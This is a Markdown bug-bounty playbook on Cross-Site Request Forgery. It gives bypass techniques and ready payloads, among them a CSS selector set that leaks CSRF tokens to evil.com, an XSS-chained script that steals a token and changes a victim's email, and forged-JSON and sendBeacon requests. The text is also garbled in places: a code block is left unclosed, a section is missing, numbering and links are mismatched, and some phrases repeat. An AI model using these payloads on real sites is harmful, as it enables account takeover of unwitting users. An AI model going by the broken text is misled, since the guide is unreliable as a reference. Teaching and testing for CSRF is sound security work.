

*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [⬅️ Layer 2: Element Testing](../../Element%20Testing%20Checklist.md) | [⬅️ Layer 3: Vulnerability Staging](../../Vulnerability_Staging.md)*
---
---

# Cross-Site Request Forgery (CSRF) : Master Playbook

> **Goal:** Forcing a victim's browser to perform state-changing actions on a vulnerable application where the victim is currently authenticated.
> **Triggers:** State-changing actions like "Update Profile," "Withdraw Funds," "Change Password," or "Delete Account."
> **Context:** Imagine your browser is like an "Authorized Courier." It carries your ID (session cookies) to the bank (the website). If a malicious site tells your courier: "Hey, deliver this 'Transfer $1000' note to the bank," the courier will do it because it doesn't know the difference between your orders and the attacker's orders.
> **Hacker Mindset:** "The server trusts the browser's credentials. I'll make the browser fire a request that the server thinks the user wanted."

---

## 0. Exploit Selection Search Tree
*Use this logic to decide which technique to use based on the server's response:*



1.  **Is the action triggered by a simple link or `GET` request?**
    *   **Yes** → Use **[[#1.1 Method Manipulation]]** (Method Downgrade).
2.  **Does the request use `POST` but lacks any CSRF Token?**
    *   **Yes** → Use **[[#1.2 Token Validation Bypasses]]** (Standard CSRF).
3.  **Is a token present, but the server accepts the request if you delete the tag/value?**
    *   **Yes** → Use **[[#1.2 Token Validation Bypasses]]** (Token Dropping).
4.  **Can you bypass validation by sending an empty string or a fake token?**
    *   **Yes** → Use **[[#1.2 Token Validation Bypasses]]** (Token Injection/Empty Token).
5.  **Is the Referer header validated by the server?**
    *   **Yes** → Use **[[#2.1 Method Manipulation]]** (Referer Removal/Spoiling).
6.  **Is the body in JSON or XML format?**
    *   **Yes** → Use **[[#1.3 Content-Type Confusion & Confusion]]**.
7.  **Are cookies protected by SameSite attributes?**
    *   **Yes** → Use **[[#2.2 Token Validation Bypasses]]]** (Check for the 2-minute window).

---

## 1. Methodology & UX Impact Table

| Attack Vector | Beginner "Why" | Detection Indicator | Success Confirmation | Bounty Impact |
| :--- | :--- | :--- | :--- |
| **Email Change** | Total Account Takeover | Victim email updated to Attacker | **P1 ($2k+)** |
| **2FA Disable** | Security Removal | 2FA turned off without OTP | **P1 ($1k+)** |
| **Password Reset** | Account Hijack | New password set successfully | **P2 ($500+)** |
| **API Key Regen** | Long-term Access | New API key leaked via PoC | **P2 ($500+)** |
| **Login CSRF** | Activity Tracking | Victim logged into Attacker account | **P3 ($200+)** |

---

## 2. Core Bypasses & Evasion Techniques

> **Why it happens:** CSRF occurs because browsers automatically include "Ambient Credentials" (cookies) in requests to a domain. If the server only checks the cookie and not a unique, unpredictable token, an attacker can forge a request.

### 2.1 Method Manipulation
> **Goal:** Bypass CSRF filters that are only applied to specific HTTP methods (usually `POST`).
> **Context:** Developers often think "GET isn't for state changes," so they omit CSRF checks on that method. This is a massive mistake.
> **Hacker Mindset:** "I'll turn this complex POST request into a simple GET link. If the server still processes it, the bouncer isn't checking tickets at this door."

*   **Method Downgrade**: Change `POST` to `GET`. 
    *   *Indicator of Success:* The server processes the request successfully, which it should not do if it's properly configured to only accept `POST`.
*   **Method Override**: Use `X-HTTP-Method-Override: PUT` or `?_method=PUT`. If the app uses a REST library that allows override, it might bypass a strict POST-only filter.

> **Beginner Note:** Use Burp's **"Change Request Method"** right-click context menu to test this in 1 second.

### 2.2 Token Validation Bypasses
> **Goal:** Circumvent the "Secret Token" check that the server uses to verify the user's intent.

*   **Token Dropping**: Omit the `csrf_token` (or equivalent) parameter entirely. Some applications only validate the token if the parameter is present in the request body. If the server code is `if (token_param) validate(token_param)`, then omitting it skips the validation.
*   **Token Injection**: Use a valid token from account A to submit a request for account V. If the server doesn't link `token` $\leftrightarrow$ `sessionID`, it will accept it.
*   **Token Analysis**: Analyze character-level randomness to see if parts are static (e.g., first 8 chars identical). Brute-force the dynamic portion.

### 2.3 Content-Type Confusion & Confusion
> **Goal:** Trick the server into using a different parser that doesn't trigger CSRF protections.

*   **Parser Confusion**: Change `application/json` to `text/plain` or `application/x-www-form-urlencoded`.
*   **JSON-to-Form-Urlencoded (Trick)**: If the server accepts multi-part or form data, you can build a form payload that mimics JSON structure.
    ```html
    <form action="https://target.com/api/update" method="POST" enctype="text/plain">
      <input name='{"email":"attacker@evil.com", "ignore":"' value='"}'>
    </form>
    ```
*   **GraphQL CSRF**: Test mutations via `GET` query params or URL-encoded `POST`.
    *   *Vulnerability:* If the server accepts mutations via `application/x-www-form-urlencoded` (GET or POST), it may be vulnerable to standard CSRF.
    *   *Verification:* Attempt a mutation using a standard HTML form. If it executes without a preflight `OPTIONS` check, it is vulnerable.

---

## 3. Advanced Referral & Origin Evasion

> **Why it happens:** Defensive filters like `Referer` or `Origin` checks are often implemented using regex (e.g., `.*target\.com.*`). If the regex is too broad, it can be spoofed.

### 3.1 Header Spoiling
*   **Referer Removal**: Use `<meta name="referrer" content="no-referrer">`. If the app only blocks **incorrect** referers but allows **missing** ones, this wins.
*   **Referer Spoiling**: If the check is `target.com`, use `target.com.attacker.com` or `evil.com/target.com`.
*   **Advanced Referral Evasion**: Chain with Open Redirects or specific browser behavior to mask the origin.

### 3.2 SameSite Cookie Attributes
*   **Chrome 2-Minute Window**: Even if a cookie is `SameSite=Lax`, Chrome allows it to be sent on top-level POST requests for the **first 2 minutes** after it is set. This is a critical edge case!
*   **SameSite=None Check**: If the cookie lacks `SameSite` or is explicitly `None`, it behaves like a legacy cookie (Always sent).
*   **Cookie Prefixes**: Look for `__Host-` or `__Secure-`. These indicate the developer is intentionally hardening against CSRF.

---

## 4. Token Extraction & Siphoning
> **Why it happens:** If a direct CSRF is blocked by a token, the hunter must find a way to "read" that token first. This usually involves chaining with another vulnerability like XSS or CSS Injection.

*   **CSS Injection (Token Exfil)**: If you can inject CSS, use attribute selectors to leak the token character-by-character.
    ```css
    input[name=csrf][value^=a] { background-image: url(https://evil.com/leak/a); }
    input[name=csrf][value^=b] { background-image: url(https://evil.com/leak/b); }
    ```
*   **Dangling Markup Injection**: If XSS is blocked but HTML injection is allowed, use an unfinished tag to "sniff" the token.
    ```html
     **Beginner Note:** In this diagram, notice that the "Attacker" never sees the cookie. They only "ride along" on the browser's automatic behavior.

---

## 6. High-Impact Target Sinks (Where to look)

### 6.1 Account & Auth Actions
*   **Email/Password Change**: The classic CSRF target. Check if the "Current Password" field can be omitted.
*   **2FA Disable**: Use CSRF to turn off 2FA. 
    *   **Heritage Tip:** Check if the "Disable" action requires an OTP. If it doesn't, this is a Critical find.
    *   **CSRF on 2FA Change**: See [[Business Logic & Mass Assignment]] for full escalation.
*   **OAuth Account Linkage (High-Impact ATO)**:
    *   **Exploit Workflow**:
        1.  Attacker begins their own OAuth sign-in flow.
        2.  Attacker intercepts the intercepted Intercepted `GET /callback?code=CODE&state=STATE` request (missing `state` parameter).
        3.  Attacker provides this intercepted URL to the logged-in Victim.
        4.  Victim clicks -> Attacker's account linked to Victim's session.
*   **Account Pre-registration**: Link an attacker-controlled OAuth account to a victim's email pre-registration to hijack the account.

### 6.2 Security & Admin Logic
*   **API Key Regeneration**: If the new key is displayed on the page, chain with [[Cross-Site Scripting (XSS)|XSS]] to steal it.
*   **CORS Whitelist Modification**: Use CSRF to add `attacker.com` to authorized origins.
*   **File Upload CSRF**: Forcing a victim to upload a malicious file (e.g., profile picture with XSS payload) via a cross-origin form.

---

## 7. Elite Verification & PoC Construction

### 7.1 Multi-Step CSRF Chain (JavaScript)
If the action requires two steps (Confirm -> Submit):
```javascript
// Step 1: Trigger the confirmation
fetch('/action/confirm', {method: 'POST', mode: 'no-cors'});
// Step 2: Submit the final action
setTimeout(() => {
  fetch('/action/submit', {method: 'POST', mode: 'no-cors'});
}, 1000);
```

### 7.2 Token Siphoning (XSS Chain)
If you have XSS, use this to siphon the token:
```javascript
fetch('/profile').then(r => r.text()).then(html => {
   const token = html.match(/name="csrf" value="(.+?)"/)[1];
   fetch('/change-email', {
       method: 'POST',
       body: 'email=evil@attacker.com&csrf=' + token
   });
});
```

### 7.3 JSON CSRF via sendBeacon()
If the JSON parser is loose, use `sendBeacon` to send a POST request:
```javascript
var data = '{"email":"evil@attacker.com"}';
navigator.sendBeacon('https://target.com/api/update', data);
```

---

## 8. Hunter's Strategic Reference

### 8.1 Why your Report might be Rejected (N/A)
*   **Logout CSRF**: Usually marked as "Informational." Impact is too low.
*   **Self-CSRF**: Often low priority unless you can show a clear way to track the user.
*   **No State Change**: If the action is just a search or `GET` request that doesn't change data.

### 8.2 Reporting Template
> **Description:** A Cross-Site Request Forgery (CSRF) vulnerability was found in the `[ENDPOINT]` endpoint.
> **Impact:** This allows an attacker to [ACTION] on behalf of [VICTIM] by [METHOD]. This leads to [ACCOUNT TAKEOVER].
> **Remediation:** Implement **Anti-CSRF Synchronizer Tokens** or enforce **SameSite=Lax** attributes.

### 8.3 Severity Mapping & Bounty Scale
| Target Action | Severity | Estimated Bounty (H1/BC) |
| :--- | :--- | :--- |
| **Email/Password Change** | P1-P2 | **$1,000 - $5,000** |
| **2FA Disable** | P1 | **$2,000 - $8,000** |
| **Login CSRF** | P3-P4 | **$200 - $500** |
| **Review/Comment** | P4 | **$50 - $150** |

---

## 8. CSRF Toolbox
| Tool | Purpose | Primary Command |
| :--- | :--- | :--- |
| **Burp Suite** | Manual PoC Generation | Right-click -> Engagement Tools -> Generate CSRF PoC |
| **XS-Strike** | Advanced XSS/CSRF chaining | `python xsstrike.py -u "URL"` |
| **CSRF-Tester** | Automation of PoC validation | Test multiple forms for token presence |

---

*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [⬅️ Layer 2: Element Testing](../../Element%20Testing%20Checklist.md) | [⬅️ Layer 3: Vulnerability Staging](../../Vulnerability_Staging.md)*
